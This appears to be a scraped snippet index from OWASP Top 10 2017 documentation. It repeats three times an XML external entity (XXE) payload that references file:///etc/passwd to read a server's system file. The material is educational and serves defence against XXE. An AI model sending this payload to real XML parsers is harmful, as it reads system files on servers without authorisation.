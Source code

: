 ----------------------------------------

TITLE: XXE Attack: Data Extraction from Server
DESCRIPTION: This XML snippet demonstrates an XXE attack designed to extract sensitive data, such as the contents of /etc/passwd, from the server's file system. It uses an external entity to reference a local file.
SOURCE: https://github.com/owasp/top10/blob/master/2017/en/0xa4-xxe.md#_snippet_0

LANGUAGE: XML
CODE:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

----------------------------------------

TITLE: XXE Attack: Data Extraction from Server
DESCRIPTION: This XML snippet demonstrates an XXE attack designed to extract sensitive data, specifically the `/etc/passwd` file, from the server by defining an external entity that points to a local file system path.
SOURCE: https://github.com/owasp/top10/blob/master/2017/he/0xa4-xxe.md#_snippet_0

LANGUAGE: XML
CODE:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>
```

----------------------------------------

TITLE: XXE Attack: Extracting Data from Server
DESCRIPTION: This XML snippet demonstrates an XXE attack where an external entity is used to read the content of a local file (e.g., /etc/passwd) from the server's file system. The <!ENTITY xxe SYSTEM "file:///etc/passwd" > declaration defines an external entity 'xxe' that points to the specified file, which is then referenced within the XML document to trigger the file read.
SOURCE: https://github.com/owasp/top10/blob/master/2017/OWASP-Top-10-2017-pt-br.html#_snippet_0

LANGUAGE: XML
CODE:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
  <foo>&xxe;</foo>
```

----------------------------------------
